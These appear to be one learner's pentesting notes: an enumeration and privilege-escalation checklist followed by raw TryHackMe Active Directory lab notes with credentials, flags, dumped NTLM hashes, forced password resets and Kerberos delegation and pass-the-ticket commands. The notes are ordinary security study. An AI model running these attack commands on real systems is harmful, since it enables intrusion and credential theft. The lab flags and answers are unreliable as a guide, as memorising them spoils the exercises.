 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null 
- psexec.py
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Payloads
- msfvenom - reverse -f aspx -o app.aspx

## Windows
- /priv
- systeminfo
- smb read/write
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%


# Exploring AD
resolv.conf
search za.tryhackme.loc
nameserver 10.200.77.101
nameserver 10.0.0.1
options timeout:1
options attempts:2
sudo systemctl restart networking.service
dig thmdc.za.tryhackme.loc
nslookup google.com

**SSH**: ssh za.tryhackme.loc\\paula.bailey@thmwrk1.za.tryhackme.loc
Y2VgRWWiQ

t2_ross.bird
$Password = ConvertTo-SecureString "Tryhackme!" -AsPlainText -Force 
Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $Password 

2222222
ssh za.tryhackme.loc\\t2_ross.bird@thmwrk1.za.tryhackme.loc
Tryhackme!
1.GenericWrite
2.THM{Permission.Delegation.FTW!} 
3333333
Unconstrained Delegation
Resource-Based Constrained Delegation
RBCD
Constrained Delegation
THM{Constrained.Delegation.Can.Be.Very.Bad} 
44444

THM{Printing.Some.Shellz}
666666
THM{Exploiting.GPOs.For.Fun.And.Profit}

30
SMB Signing
THM{Printing.Some.Shellz}
10.200.77.202 



cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb
%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb
%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db  
Secret:DefaultPassword                     
old/text: vagrant  

svcIIS@za.tryhackme.loc 
Password1@

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc 
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:WSMAN/THMSERVER1.za.tryhackme.loc

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_WSMAN~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
